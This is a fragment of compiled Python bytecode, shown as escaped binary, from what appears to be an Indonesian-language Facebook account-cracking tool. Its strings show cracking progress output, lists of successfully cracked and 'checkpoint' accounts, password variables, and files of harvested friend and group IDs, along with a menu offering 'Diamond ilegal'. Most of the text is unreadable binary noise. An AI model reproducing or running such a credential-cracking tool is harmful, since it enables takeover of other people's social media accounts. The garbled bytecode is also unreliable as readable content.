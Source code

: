 \rm[\rk%s\rm]s0\x00\x00\x00\x1b[32;1m[*]Cracking \x1b[31;1m[\x1b[36;1m0%\x1b[31;1m]\x1b[0mt\x03\x00\x00\x00endRG\x00\x00\x00i\x00\x00\x00\x00R\x0f\x00\x00\x00i\x01\x00\x00\x00i\x03\x00\x00\x00i\x02\x00\x00\x00i\x08\x00\x00\x00s6\x00\x00\x00\r\x1b[32;1m[*]Cracking \x1b[31;1m[\x1b[36;1m%0.2f%s\x1b[31;1m]\x1b[0mid\x00\x00\x00t\x01\x00\x00\x00%s8\x00\x00\x00\r\x1b[32;1m[*]Cracking \x1b[31;1m[\x1b[36;1m100%\x1b[31;1m]\x1b[0m     s\x17\x00\x00\x00\rh[*]Daftar akun suksess\x14\x00\x00\x00\rh==>\rk%s \rm[\rp%s\rm]s#\x00\x00\x00\rh[*]Jumlah akun berhasil\rp      %ds#\x00\x00\x00\rm[*]Jumlah akun gagal\rp         %ds#\x00\x00\x00\rk[*]Jumlah akun cekpoint\rp      %ds#\x00\x00\x00\rc[*]Jumlah akun error\rp         %ds.\x00\x00\x00[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)RN\x00\x00\x00RO\x00\x00\x00(\x02\x00\x00\x00i\x00\x00\x00\x00i\x00\x00\x00\x00(\x18\x00\x00\x00R\x0c\x00\x00\x00R\x1f\x00\x00\x00R\x08\x00\x00\x00R\x11\x00\x00\x00R\x12\x00\x00\x00t\x06\x00\x00\x00stdoutt\x05\x00\x00\x00flushR\x07\x00\x00\x00RD\x00\x00\x00RV\x00\x00\x00R+\x00\x00\x00t\x06\x00\x00\x00daemont\x05\x00\x00\x00startRd\x00\x00\x00R\x13\x00\x00\x00R\\\x00\x00\x00t\x05\x00\x00\x00floatRW\x00\x00\x00t\x0b\x00\x00\x00activeCountR\x14\x00\x00\x00R"\x00\x00\x00R\x1e\x00\x00\x00RP\x00\x00\x00RQ\x00\x00\x00(\r\x00\x00\x00R]\x00\x00\x00t\x05\x00\x00\x00sandiR\x05\x00\x00\x00t\x08\x00\x00\x00akun_jmlt\x0b\x00\x00\x00akun_suksest\r\x00\x00\x00akun_cekpointt\n\x00\x00\x00akun_errort\n\x00\x00\x00akun_gagalt\x04\x00\x00\x00jml0t\x04\x00\x00\x00jml1t\x02\x00\x00\x00thR\x0b\x00\x00\x00R!\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>Rj\x00\x00\x00\xf9\x00\x00\x00sx\x00\x00\x00\x00\x01\x1a\x01\x10\x01\x10\x01\x06\x01\x06\x01\x06\x01\x06\x01\x06\x01\x0c\x01\x06\x01\r\x01\x12\x01\x12\x00\x1d\x01\r\x01\n\x01\t\x01\x03\x00\x0e\x01\r\x00\x0f\x01\x03\x01\x03\x01\r\x01\x0c\x01 \x01\n\x01\x10\x01\x14\x01\x10\x01\x14\x01\x10\x01\x14\x01\x10\x01\x14\x014\x01\x10\x01\x1c\x01\r\x01\x11\x01\x03\x01\x12\x00\x08\x01\r\x01\x0f\x01\n\x01\x12\x01\n\x01\r\x01\x1b\x01\x14\x01\x14\x01\x14\x01\x14\x01\x06\x01\x15\x01\x12\x01\n\x02\n\x02c\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00sk\x00\x00\x00t\x00\x00t\x01\x00\x83\x01\x00d\x01\x00k\x03\x00rg\x00t\x02\x00d\x02\x00d\x03\x00d\x04\x00g\x02\x00\x83\x02\x00}\x00\x00|\x00\x00j\x03\x00\x83\x00\x00d\x04\x00k\x02\x00rC\x00t\x04\x00t\x01\x00\x83\x01\x00St\x05\x00j\x06\x00t\x05\x00j\x07\x00j\x08\x00d\x01\x00\x19d\x05\x00\x17\x83\x01\x00\x01g\x00\x00a\x01\x00n\x00\x00d\x01\x00S(\x06\x00\x00\x00Ni\x00\x00\x00\x00s\'\x00\x00\x00[?]Riset Hasil Id Teman/lanjutkan (r/l)t\x01\x00\x00\x00Rt\x01\x00\x00\x00Ls\x0e\x00\x00\x00/MBFbteman.txt(\t\x00\x00\x00R\x1f\x00\x00\x00R\x1b\x00\x00\x00R"\x00\x00\x00R\x1e\x00\x00\x00RP\x00\x00\x00R\x11\x00\x00\x00t\x06\x00\x00\x00removeR\x12\x00\x00\x00R\x18\x00\x00\x00(\x01\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x07\x00\x00\x00lanjutT4\x01\x00\x00s\x0e\x00\x00\x00\x00\x02\x12\x01\x15\x01\x12\x01\n\x02\x1b\x01\t\x01c\x00\x00\x00\x00\x01\x00\x00\x00\x04\x00\x00\x00C\x00\x01\x00sk\x00\x00\x00t\x00\x00t\x01\x00\x83\x01\x00d\x01\x00k\x03\x00rg\x00t\x02\x00d\x02\x00d\x03\x00d\x04\x00g\x02\x00\x83\x02\x00}\x00\x00|\x00\x00j\x03\x00\x83\x00\x00d\x04\x00k\x02\x00rC\x00t\x04\x00t\x01\x00\x83\x01\x00St\x05\x00j\x06\x00t\x05\x00j\x07\x00j\x08\x00d\x01\x00\x19d\x05\x00\x17\x83\x01\x00\x01g\x00\x00a\x01\x00n\x00\x00d\x01\x00S(\x06\x00\x00\x00Ni\x00\x00\x00\x00s\'\x00\x00\x00[?]Riset Hasil Id Group/lanjutkan (r/l)R~\x00\x00\x00R\x7f\x00\x00\x00s\x0e\x00\x00\x00/MBFbgroup.txt(\t\x00\x00\x00R\x1f\x00\x00\x00R\x1a\x00\x00\x00R"\x00\x00\x00R\x1e\x00\x00\x00RP\x00\x00\x00R\x11\x00\x00\x00R\x80\x00\x00\x00R\x12\x00\x00\x00R\x18\x00\x00\x00(\x01\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00<febry>t\x07\x00\x00\x00lanjutG>\x01\x00\x00s\x0e\x00\x00\x00\x00\x02\x12\x01\x15\x01\x12\x01\n\x02\x1b\x01\t\x01c\x00\x00\x00\x00\x01\x00\x00\x00\x05\x00\x00\x00C\x00\x01\x00s\x8a\x00\x00\x00t\x00\x00d\x01\x00\x83\x01\x00\x01t\x00\x00d\x02\x00d\t\x00d\n\x00f\x02\x00\x16\x83\x01\x00\x01t\x01\x00d\x05\x00d\x06\x00d\x07\x00d\x08\x00g\x03\x00\x83\x02\x00}\x00\x00|\x00\x00d\x06\x00k\x02\x00rS\x00t\x02\x00\x83\x00\x00\x01t\x03\x00\x83\x00\x00\x01n3\x00|\x00\x00d\x07\x00k\x02\x00rp\x00t\x04\x00\x83\x00\x00\x01t\x05\x00\x83\x00\x00\x01n\x16\x00|\x00\x00d\x08\x00k\x02\x00r\x86\x00t\x06\x00\x83\x00\x00\x01n\x00\x00d\x00\x00S(\x0b\x00\x00\x00Nsn\x01\x00\x00\rh\n  ##############\t\t      ###     ###\n  ##############      \t\t      ###     ###\n       ####      ######### #########  ###     ### ########\n       ####      ######### ##    ###  ###     ### ##   ###\n       ####      ##     ## #########  ###     ### ########\n       ####      ######### ##         ########### ##\n       ####      ######### ##         ########### ##\n\n\ns?\x00\x00\x00\rk%s\n\rc1 \rhDiamond Legal\n\rc2 \rhDiamond ilegal\n\rc3 \rmKELUAR\n\rk%sRG\x00\x00\x00i\x14\x00\x00\x00s\x08\x00\x00\x00[?]PILIHi\x01\x00\x00\x00i\x02\x00\x00\x00i\x03\x00\x00\x00RG\x00\x00\x00RG\x00\x00\x00(\x07\x00\x00\x00R\x0c\x00\x00\x00R%\x00\x00\x00R\x82\x00\x00\x00RR\x00\x00\x00R\x81\x00\x00\x00RU\x00\x00\x00R\x14\x00\x00\x00(\x01\x00\x00\x00R\x0b\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00